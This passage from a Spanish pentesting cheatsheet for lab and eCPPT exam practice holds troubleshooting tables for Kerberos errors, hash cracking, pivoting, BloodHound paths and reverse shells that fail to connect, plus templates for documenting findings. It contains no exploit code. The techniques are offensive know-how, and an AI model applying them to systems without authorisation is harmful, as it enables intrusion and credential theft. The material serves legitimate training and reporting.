| Un hash de 32 caracteres | [Identificar el formato](#hash-formatos) | Si es NT, MD5 u otro; longitud no basta |
| Un ticket Kerberos | [Pass-the-Ticket](#ptt) | Principal, servicio, validez y acceso real |
| Un host con otra interfaz | [Pivoting](#pivoting) | Subred alcanzable y camino de retorno |
| Un túnel activo que no transporta la petición | [Diagnóstico de red](#diagnostico-red) | Interfaz, tramo y respuestas realmente observadas |
| Una supuesta ruta de BloodHound | [Validar aristas](#bloodhound) | Qué permisos actuales puedes demostrar |

### Diagnóstico por síntoma

| Síntoma | Causa posible | Próxima comprobación |
|---|---|---|
| Todos los hosts parecen caídos | Descubrimiento filtrado / VPN / ruta | `ip route get`, un puerto conocido, después `-Pn` |
| TCP responde pero no UDP | UDP filtrado o sin respuesta | Sondeo de protocolo, `--reason`, ruta UDP |
| Todos los paths web dan 200 | Respuesta comodín | Rutas inexistentes y calibración por contenido |
| El vhost funciona por nombre pero no por IP | Host/SNI | `curl --resolve` y nombre exacto |
| LDAP devuelve `strongerAuthRequired` | Firma/TLS requerido | LDAPS, StartTLS o mecanismo admitido |
| LDAP muestra pocos objetos | Base DN, filtro o permisos | RootDSE, ámbito de búsqueda y autenticación |
| SMB `STATUS_LOGON_FAILURE` | Ámbito, secreto o identidad | Cuenta local/dominio y sintaxis |
| SMB `STATUS_ACCOUNT_LOCKED_OUT` | Cuenta bloqueada | Detener intentos y revisar política/estado |
| SMB autentica, WinRM falla | Falta de autorización | Permisos remotos y servicio |
| `KRB_AP_ERR_SKEW` | Desfase de reloj | Hora UTC y fuente temporal del laboratorio |
| `KDC_ERR_C_PRINCIPAL_UNKNOWN` | Principal/realm incorrectos | Nombre de usuario, dominio y DC consultado |
| `KDC_ERR_PREAUTH_FAILED` | Preautenticación inválida | Contraseña/clave y tipo de autenticación |
| `KDC_ERR_S_PRINCIPAL_UNKNOWN` | SPN inexistente o incorrecto | FQDN y servicio solicitado |
| Kerberos funciona fuera del proxy | DNS o transporte no soportado | Nombres, TCP, puertos y salida real |
| `KRB_AP_ERR_MODIFIED` | Clave/SPN no coincide | Cuenta de servicio, SPN duplicado y destino |
| `hashcat` no reconoce el hash | Formato o modo incorrectos | Prefijo, separadores, BOM y tipo de cifrado |
| Hashcat `Exhausted` | Candidatos agotados | Calidad de la lista, reglas y presupuesto |
| Error de arquitectura al ejecutar | Binario/SO incompatibles | `file`, arquitectura y dependencias |
| Reverse shell no llega | Ruta de retorno ausente | Listener, IP visible desde destino y firewall |
| SOCKS activo pero Nmap falla | Uso de paquetes raw / DNS | `-sT -Pn -n`, puertos concretos |
| La ruta de MSF existe pero curl falla | curl no usa el framework | SOCKS o port forward |
| `Address already in use` | Listener duplicado | `ss -lntp` y puertos de cada herramienta |
| WinRM funciona, acceso a tercer host falla | Credencial no delegada | Identidad efectiva y segundo salto |
| BloodHound no importa | Colector/esquema incompatible | Versión indicada por la instancia de CE |

[↑ Volver al índice](#indice)

---

<a id="evidencias"></a>
## 📝 Plantillas de documentación

Usa [LAB_TEMPLATE.md](LAB_TEMPLATE.md) para una máquina o hallazgo y [ECPPT_EXAM_TEMPLATE.md](ECPPT_EXAM_TEMPLATE.md) para organizar hosts, redes, credenciales y rutas durante una práctica con varios equipos.

### Una evidencia que se pueda verificar

| Campo | Qué guardar |
|---|---|
| Contexto | IP, FQDN, usuario, servicio y hora |
| Prerrequisitos | Credencial, permiso, versión o configuración necesaria |
| Acción | Comando o petición completa con sus parámetros relevantes |
| Resultado | Salida mínima que demuestra lo afirmado |
| Impacto | Qué operación antes prohibida se ha podido realizar |
| Remediación | Cambio concreto que elimina la condición |
| Restauración | Archivos/configuración alterados y estado final |

No asignes un CVSS numérico sin calcular su vector. Una captura de `whoami` debe incluir contexto suficiente para saber en qué host se ejecutó; un ticket visible no acredita por sí solo que se accedió a un recurso.

[↑ Volver al índice](#indice)

---

[🛡️ Visita también mi eJPT Cheatsheet](https://github.com/saulruizplaza/eJPT-Cheatsheet)

---

##  ¡Hola! Me llamo Saúl Ruiz

### Analista de Ciberseguridad | Seguridad Ofensiva y Pentesting


[](https://twitter.com/plasysx)

Soy Analista de Ciberseguridad y Técnico Superior en Administración de Sistemas Informáticos en Red. Actualmente desarrollo mi carrera en entornos SOC, participando en tareas de análisis, monitorización e investigación de eventos de seguridad.

Mi interés principal se orienta hacia la seguridad ofensiva, el pentesting y el análisis técnico, áreas en las que sigo formándome de manera constante para crecer profesionalmente dentro del sector.

A través de mi proyecto personal <b>[@PlaSysX](https://linktr.ee/PlaSysx)</b>, comparto contenido relacionado con informática, ciberseguridad y aprendizaje práctico, con el objetivo de aportar valor a quienes también quieren seguir creciendo en el mundo tecnológico.

[](https://plasysx.com)
[](https://www.linkedin.com/in/saulruizplaza) [](https://instagram.com/plasysx)
[](https://tiktok.com/@plasysx_es)
[](https://youtube.com/@Plasysx)
[](https://twitter.com/plasysx)
